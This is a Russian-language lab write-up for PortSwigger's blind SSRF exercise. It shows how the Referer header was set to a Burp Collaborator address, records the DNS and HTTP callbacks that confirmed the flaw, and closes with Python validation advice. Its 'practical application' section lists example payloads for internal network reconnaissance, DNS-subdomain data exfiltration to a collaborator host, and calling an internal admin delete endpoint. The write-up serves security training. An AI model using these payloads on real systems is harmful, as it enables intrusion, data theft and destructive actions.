



## Lab: Blind SSRF with out-of-band detection

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SSRF  
**Сложность:** Practitioner  
**Инструмент:** Burp Suite Professional (требуется Collaborator)  
**Дата:** 2025-07-17  


---

## TL;DR
Аналитический модуль сайта делает HTTP-запрос по URL из заголовка
`Referer` без валидации. Подменив `Referer` на адрес Burp Collaborator
удалось подтвердить Blind SSRF — сервер сделал DNS и HTTP запросы
на внешний сервер.

---

## Отличие от предыдущих лаб

В прошлых лабах SSRF был **видимым** — сервер возвращал содержимое
внутренней страницы прямо в ответе. Здесь SSRF **слепой** — сервер
делает запрос но результат не возвращается.

Единственный способ подтвердить атаку — поймать запрос
на внешнем сервере (Burp Collaborator).

---

## Описание уязвимости

Сайт использует аналитический модуль который при загрузке страницы
товара читает заголовок `Referer` и делает к нему HTTP-запрос —
чтобы собирать данные об источниках трафика. Заголовок не валидируется,
что позволяет направить сервер на произвольный внешний адрес.

```
Обычное поведение:
Браузер → GET /product?id=1
          Referer: https://google.com
Сервер  → делает запрос на google.com для аналитики

Атака:
Атакующий → GET /product?id=1
             Referer: http://abc123.burpcollaborator.net
Сервер     → делает запрос на abc123.burpcollaborator.net
Collaborator → логирует DNS + HTTP взаимодействия
```

---

## Разведка и эксплуатация

### Шаг 1 — Перехват запроса

Открыла страницу любого товара, перехватила запрос в Burp
и отправила в **Repeater**. В запросе виден заголовок `Referer`:

```http
GET /product?productId=1 HTTP/2
Host: LAB-ID.web-security-academy.net
Referer: https://LAB-ID.web-security-academy.net/
```



### Шаг 2 — Вставка Collaborator payload

Правой кнопкой на значение заголовка `Referer` →
**Insert Collaborator payload**. Burp автоматически подставил
уникальный адрес Collaborator:

```http
Referer: http://abc123xyz.burpcollaborator.net
```



### Шаг 3 — Отправка запроса

Отправила запрос кнопкой **Send**. Сервер получил запрос,
прочитал `Referer` и сделал запрос на адрес Collaborator.

### Шаг 4 — Проверка взаимодействий в Collaborator

Перешла на вкладку **Collaborator** в верхнем меню Burp →
нажала **Poll now**. Через несколько секунд появились
взаимодействия от сервера лабы:

```
DNS  → сервер спросил IP для abc123xyz.burpcollaborator.net
HTTP → сервер сделал GET запрос на abc123xyz.burpcollaborator.net
```

Два взаимодействия подтверждают что Blind SSRF работает —
сервер обращается к произвольным внешним адресам
из заголовка `Referer`.



---

## Почему два взаимодействия (DNS + HTTP)

Когда сервер пытается обратиться к `abc123xyz.burpcollaborator.net`
происходит два шага:

```
Шаг 1 — DNS резолвинг:
Сервер → DNS: "какой IP у abc123xyz.burpcollaborator.net?"
Collaborator DNS сервер логирует этот запрос

Шаг 2 — HTTP запрос:
Сервер получил IP → делает GET запрос на этот адрес
Collaborator HTTP сервер логирует этот запрос
```

---

## Итог

Blind SSRF через заголовок `Referer` подтверждён. Сервер делает
запросы на произвольные внешние адреса без валидации. В реальном
сценарии это позволяет:

- Проводить разведку внутренней сети
- Красть данные через DNS-запросы
- Атаковать внутренние сервисы — даже не видя ответов сервера

---

## Практическое применение Blind SSRF

```bash
# Разведка внутренней сети через DNS:
Referer: http://internal-service.corp.local

# Кража данных через DNS subdomains:
# Данные передаются как часть DNS имени:
Referer: http://STOLEN-DATA.abc123.burpcollaborator.net

# Атака на внутренние API без ответа:
Referer: http://192.168.0.34:8080/admin/delete?username=carlos
```

---

## Защита

```python
from urllib.parse import urlparse

ALLOWED_REFERER_DOMAINS = ['web-security-academy.net', 'google.com']

def validate_referer(referer: str) -> bool:
    if not referer:
        return True  # пустой Referer допустим
    try:
        parsed = urlparse(referer)
        domain = parsed.hostname
        # Разрешаем только доверенные домены
        return any(
            domain == d or domain.endswith('.' + d)
            for d in ALLOWED_REFERER_DOMAINS
        )
    except Exception:
        return False

# Использование:
referer = request.headers.get('Referer', '')
if not validate_referer(referer):
    # Не делаем запрос — просто игнорируем
    pass
```

Дополнительно:
- Не делать серверные запросы на основе пользовательских заголовков —
  данные из `Referer` ненадёжны и легко подделываются
- Для аналитики достаточно логировать заголовок без HTTP-запроса
  по указанному URL
- Выполнять любые внешние запросы через изолированный прокси
  без доступа к внутренней сети